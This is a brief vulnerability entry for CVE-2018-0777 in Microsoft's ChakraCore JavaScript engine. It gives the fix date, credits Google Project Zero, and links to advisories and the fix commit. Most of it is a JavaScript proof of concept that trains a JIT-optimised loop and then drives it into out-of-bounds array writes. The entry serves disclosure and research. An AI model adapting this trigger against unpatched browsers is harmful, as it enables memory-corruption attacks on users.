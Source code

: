 # CVE-2018-0777

- Fix: Jan 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(arr, start, end) {
    for (let i = start; i < end; i++) {
        if (i === 10) {
            i += 0;  // <<-- (a)
        }
        arr[i] = 2.3023e-320;
    }
}

function main() {
    let arr = new Array(100);
    arr.fill(1.1);

    for (let i = 0; i < 1000; i++)
        opt(arr, 0, 3);

    opt(arr, 0, 100000);
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-0777)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1429)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/14c752b66f43ee6ecc8dd2f7f9d5378f6a91638e)